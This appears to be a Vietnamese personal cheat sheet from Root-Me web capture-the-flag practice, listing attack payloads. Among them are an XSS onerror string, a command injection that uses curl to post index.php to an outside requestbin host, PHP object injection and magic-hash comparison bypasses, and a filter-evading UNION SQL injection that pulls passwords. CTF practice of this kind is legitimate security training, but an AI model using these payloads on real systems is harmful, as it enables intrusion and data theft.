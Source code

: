 
##kết thúc dự án , một phần vì lười , một phần sợ root-me ban =))

###;https://www.httpwatch.com/httpgallery/introduction/  http header
https://curl.haxx.se/docs/httpscripting.html#GET
`--><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->`


hàm extract :  truyền biến trực tiếp thông qua url : ví dụ
```
url="http://xxx.com/?get=nnanaa

<?php
$get="notme"

echo $get ; // lúc trưa truyền thì in ra notme , khi get=jjjj in ra jjj
```

 meta http-equiv="refresh" content="1; url=https://www.w3schools.com/tags/att_meta_http_equiv.asp">\
 
 auth={"data":{"login":"a","password":"ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb"}}
 có thể ép kiểu true= {"login":true}
 
 
 ---
 ip=localhost%0Acurl -X POST -F file=@index.php https://requestbin.fullcontact.com/  blind commandline , in ra 1 file
 
 O:4:"test":2:{s:7:"jackpot";N;s:5:"enter";N;} , tạo giá trị null, obj , hoặc nan,


`%09` =1 tab

`%20` =1 space



 $ echo -n 240610708 | md5sum
    0e462097431906509019562988736854  -
    $ echo -n QNKCDZO | md5sum
    0e830400451993494058024219903391  -
    $ echo -n aabg7XSs | md5sum
    0e087386482136013740957780965295  -
    
    0e087386482136013740957780965295=0
    10e087386482136013740957780965295=10
   



-1%a0UNION%a0SELECT%a0*%a0FROM%a0(SELECT%a0pass%a0From%a0membres%a0Limit%a01)a%a0JOIN%a0(SELECT%a02)b%a0JOIN%a0(SELECT%a03)c%a0JOIN%a0(SELECT%a04)d  1 bài filter nào đó 
